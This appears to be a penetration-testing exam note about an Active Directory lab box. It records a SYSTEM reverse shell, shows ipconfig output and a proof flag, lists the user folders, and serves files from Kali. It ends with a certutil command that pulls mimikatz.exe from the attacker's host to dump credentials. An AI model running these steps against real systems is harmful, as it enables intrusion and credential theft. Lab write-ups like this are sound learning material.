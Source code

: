 - CAUGHT REVERSE SHELL, I AM SYSTEM!

![[On as system AD box 1.png]]

First Proof.txt - check - screenshot yes
```

C:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.118.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.118.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.118.254

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
24777ab0b143f1ed790da9b872ad6183
```

![[AD Proof.txt and Ipconfig.png]]


- users that were on the box
```shell
 Directory of C:\Users

09/14/2022  05:48 PM    <DIR>          .
09/14/2022  05:48 PM    <DIR>          ..
05/31/2022  08:03 AM    <DIR>          Administrator
05/30/2022  01:04 AM    <DIR>          Alice.Walters
05/30/2022  01:05 AM    <DIR>          Bob.Martin
09/14/2022  05:48 PM    <DIR>          DefaultAppPool
05/26/2022  09:00 PM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  17,566,973,952 bytes free

```

- going to use mimikatz

- Still have my python3 http server up to transfer files
```

┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# python3 -m http.server 1337                               
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...



# transferring over mimikatz.exe
certutil.exe -urlcache -split -f "http://192.168.49.118:1337/mimikatz.exe"
```
